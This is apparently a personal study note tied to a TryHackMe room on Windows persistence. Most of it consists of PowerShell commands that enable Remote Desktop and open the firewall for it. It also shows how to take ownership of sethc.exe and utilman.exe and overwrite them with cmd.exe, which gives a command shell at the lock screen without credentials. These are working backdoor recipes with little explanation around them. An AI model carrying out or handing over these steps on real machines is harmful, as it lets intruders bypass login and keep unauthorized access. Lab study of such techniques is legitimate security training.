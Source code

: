 # Windows Persistence - RDP

With physcial access you can backdoor the login screen to access a terminal without having vlid credentials for a machine. THM Room: *"The login screen is merely a suggestion."*

## Enabling Remote Desktop
Require administrative privileges
```powershell
set-itemproperty -path 'HKLM:\System\CurrentControlSet\Control\Terminal\Server' -name "fDenyTSConnections" -Value 0
enable-netfirewallrule -displaygroup "Remote Desktop"
```

## Sticky Keys

Sticky Keys allow for pressing and releasing of sequential combination instead of holding combinations down simultaneously. To backdoor Sticky Keys will leverage the shortcut enabled by default on any Windows installation that allows us to activate Sticky Keys by pressing `SHIFT` five times. 
1. Replace `C:\Windows\System32\sethc.exe` ```

```powershell
takeown /f c:\Windows\System32\sethc.exe
icacls C:\Windows\System32\sethc.exe /grant Administrator:F
copy C:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe 
# Requires answer to Overwrite (Yes/No/All) prompt! Use:
# /Y
```

At the lock screen press `SHIFT` five times and you have cmd.exe without credentials.

## Utilman

Utilman is a built-in Windows application used to provide Ease of Access options during the lock screen. Similarly to Sticky Keys Backdoor we just take ownship, full permissions of the binary and  replace it with a cmd.exe or any other backdooring method.

```powershell
takeown /f c:\Windows\System32\utilman.exe
icacls C:\Windows\System32\utilman.exe /grant Administrator:F
copy C:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe
# Requires answer to Overwrite (Yes/No/All) prompt! Use:
# /Y
```

Then press the ease of access button on the lock screen.



## References

[THM Windows Persistence Room](https://tryhackme.com/room/windowslocalpersistence)